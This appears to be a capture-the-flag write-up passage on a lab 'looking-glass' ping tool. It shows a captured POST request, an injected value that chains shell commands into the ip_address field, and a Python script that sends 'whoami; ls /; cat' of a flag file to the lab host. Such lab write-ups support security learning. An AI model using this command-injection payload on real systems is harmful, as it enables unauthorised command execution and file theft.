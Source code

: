 ```http
POST / HTTP/1.1
Host: 167.99.202.131:30675
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:96.0) Gecko/20100101 Firefox/96.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: de
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 47
Origin: http://167.99.202.131:30675
DNT: 1
Connection: close
Referer: http://167.99.202.131:30675/
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

test=ping&ip_address=167.99.202.131&submit=Test
```

Test for simple command exection.

`test` -- could not make it work.

`ip_address` - works!

![looking-glass-home](/assets/ss-htb-owasp/looking-glass/looking_glass_2.jpg)

This confirms that the application is vulnerable to command injection, and we can run the command `whoami` on the remote host.

> 1.1.1.1; whoami; {more commands here}

Let's practice Python:

```python
#!/usr/bin/env python3

import requests
from urllib import parse
from bs4 import BeautifulSoup

target = "http://167.99.202.131:30675/"
command = "whoami; ls /; cat /flag_vWY4h"
data = "test=ping&ip_address=127.0.0.1%3b+" + command + "&submit=Test"
headers = {'Content-Type': 'application/x-www-form-urlencoded'}

print("[+] lester: connecting to target: " +target)
resp = requests.post(target, data, headers=headers)
```